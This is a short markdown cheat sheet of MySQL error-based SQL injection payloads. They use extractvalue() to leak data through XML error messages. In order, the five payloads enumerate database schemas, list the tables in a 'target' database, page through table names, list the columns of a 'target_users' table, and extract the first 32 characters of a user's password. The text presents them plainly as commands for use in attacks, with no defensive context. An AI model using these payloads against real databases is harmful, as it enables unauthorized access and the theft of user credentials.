 
# SQL Injection Commands Using `extractvalue()` for Data Exfiltration

These commands use MySQL's `extractvalue()` function to leak data through XML error messages. This technique is useful when other output methods are blocked during SQL injection attacks.

---

## 1. List All Database Schemas

```sql
extractvalue('', concat('>', (
  select group_concat(table_schema) 
  from (
    select table_schema 
    from information_schema.tables 
    group by table_schema
  ) as foo
)))
```

**Purpose**: Retrieve all database names on the server.

---

## 2. List All Tables in the `target` Database

```sql
extractvalue('', concat('>', (
  select group_concat(table_name) 
  from (
    select table_name 
    from information_schema.tables 
    where table_schema='target'
  ) as foo
)))
```

**Purpose**: Enumerate all tables in the `target` database.

---

## 3. Paginated Table Names in `target` (Limit + Offset)

```sql
extractvalue('', concat('>', (
  select group_concat(table_name) 
  from (
    select table_name 
    from information_schema.tables 
    where table_schema='target' 
    limit 2 offset 32
  ) as foo
)))
```

**Purpose**: Retrieve 2 table names starting from the 33rd entry in the `target` database (pagination).

---

## 4. List Columns in the `target_users` Table

```sql
extractvalue('', concat('>', (
  select group_concat(column_name) 
  from (
    select column_name 
    from information_schema.columns 
    where table_schema='target' 
      and table_name='target_users'
  ) as foo
)))
```

**Purpose**: List column names in the `target_users` table.

---

## 5. Extract First 32 Characters of First User Password

```sql
extractvalue('', concat('>', (
  select substring(password, 1, 32) 
  from target_users 
  limit 1 offset 0
)))
```

**Purpose**: Leak the first 32 characters of the password for the first user in the `target_users` table.

---

